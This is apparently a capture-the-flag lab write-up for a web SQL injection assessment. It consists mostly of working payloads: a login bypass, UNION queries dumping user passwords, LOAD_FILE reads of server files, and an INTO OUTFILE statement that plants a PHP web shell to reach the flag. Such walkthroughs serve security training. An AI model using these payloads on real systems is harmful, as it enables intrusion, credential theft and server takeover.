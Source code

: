 # Assessment

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Bypass login

```
# username
asdf' or '1'='1' -- -
```

<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

```
cn' UNION select 1, id, username, password, 5 from ilfreight.users-- -
```

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (85) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption><p>root:password</p></figcaption></figure>

```
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

<figure><img src="../../.gitbook/assets/image (97) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

flag\_cae1dadcd174.txt

```
cn' UNION SELECT 1, LOAD_FILE("/flag_cae1dadcd174.txt"), 3, 4, 5-- -
```

<figure><img src="../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>



